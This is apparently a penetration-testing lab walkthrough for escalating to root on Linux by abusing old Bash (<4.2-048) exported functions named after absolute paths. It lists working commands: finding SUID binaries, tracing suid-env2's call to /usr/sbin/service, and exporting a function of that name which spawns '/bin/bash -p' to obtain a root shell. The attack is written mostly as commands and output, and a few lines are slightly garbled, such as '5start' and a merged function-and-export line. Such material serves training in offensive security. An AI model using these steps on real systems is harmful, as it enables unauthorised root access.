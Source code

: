 ```yaml
---
category: Uncategorized
tags: []
---
```

In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2==

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

> [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 5start"]...

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env2 2>&1 | grep service
```

system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

5. Verify the version of Bash is lower than 4.2-048:

```bash - target
bash --version
```

GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

6. Create a Bash function with the name “/usr/sbin/service” and export the function:

```bash - target
function /usr/sbin/service { /bin/bash -p; } export –f /usr/sbin/service
```

7. Execute the SUID file for a root shell:
```bash - target
/usr/local/bin/suid-env2
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)